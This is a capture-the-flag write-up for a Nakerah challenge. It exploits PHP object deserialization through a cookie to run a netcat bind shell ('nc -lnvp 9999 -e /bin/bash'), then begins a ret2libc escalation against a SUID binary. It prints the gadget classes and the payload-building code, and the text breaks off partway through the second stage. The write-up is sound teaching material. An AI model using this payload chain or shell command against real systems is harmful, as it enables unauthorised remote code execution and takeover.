 <div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting ctf from nakerah nakerha.com
our goal is to read root's flag file 
expolit will be devided into two missions first deserilization attack then ret2libc
so with all that being said; let's right jump in !!

first we have that static page 
[logo]: img/1.png
![alt text](img/1.png "static page")

looking around source code nothing interested there 
[logo]: img/2.png
![alt text](img/2.png "source code")

so let's nmap it
[logo]: img/3.png
![alt text](img/3.png "nmap result")

as we see we have some other ports 
22 ssh we dont have any creds and it seems to be updated
25 smtp is filtered so we maybe come back to it later
80 http we already checked it
so lets visit port 8080 and see what behind the scene
[logo]: img/4.png
![alt text](img/4.png "port 8080")

just another blank page (: i got bored so let's gobuster it :XD
 [logo]: img/5.png
![alt text](img/5.png "gobuster")

 so we have /backup file seems to be interesting let's dump it
 [logo]: img/6.png
![alt text](img/6.png "source code")

 after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")

 so let's analyze it
 
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
here it creates an exCommand class and use a magic method __destruct then pass the value of command propert to system function
Destructor is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
here creating class Hello with some private properties and check function to verify if there's a cookie name  
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
another function printHello fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
at last here it create an var, assign it's value to our deserialized_cookie passing it to check and printHello functions

so to stay focus here it's deserilization attack and we need to pass our command to exCommand funcion which has that magic method
the problem here is that first with exCommand class we used   a property command without identifying it so in our exploit we will have to pass it to an object and  give it a vlaue
second problem is that we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff and if we try to target our exCommand class it will fail with check function so ...
so we will create exCommand object identify command property with a value (our command) put it inside  Hello calss and selialize all that staff together
[logo]: img/ex.png
![alt text](img/ex.png "exploit code")

code analysis:

class exCommand{
   public function __destruct(){
   system($this->command);
    }
}
here we just create the same exCommand class,

$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
create class hello with some properites (dummy one is interesring just continue ..!)
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;

print serialize($y);
creating an oject of Hello class assing some values to properties and what interesting here it that dummy propety we gave it a value of our exCommand object and finally serialize all that staff and here is our final serialized data
[logo]: img/8.png
![alt text](img/8.png "serialized data")

and let's try connect
[logo]: img/9.png
![alt text](img/9.png "spawingin a shell")

and voila we get our shell fisrt missin completed successfully
in the root dir we got file 
11
NX which stand for non-executable so here we know it's BOF expolit with ret2libc
after some enum we got that interesting suid file
12
so after getting it in our local machine to understand it better 
13
we can identify that NX is enables trying to run it gives seg fault after trying passing some args it just exit
14
so let's create our buffer with msf-patter-create and fire up gdb to get the exact offset
15
to get things more easy let's check ASLR in the vectim machine
16
and happy news that will make our life easier so hence we will work in our target machine to get some address
17
we got addresses of system and exit now we need address of /bin/sh

 
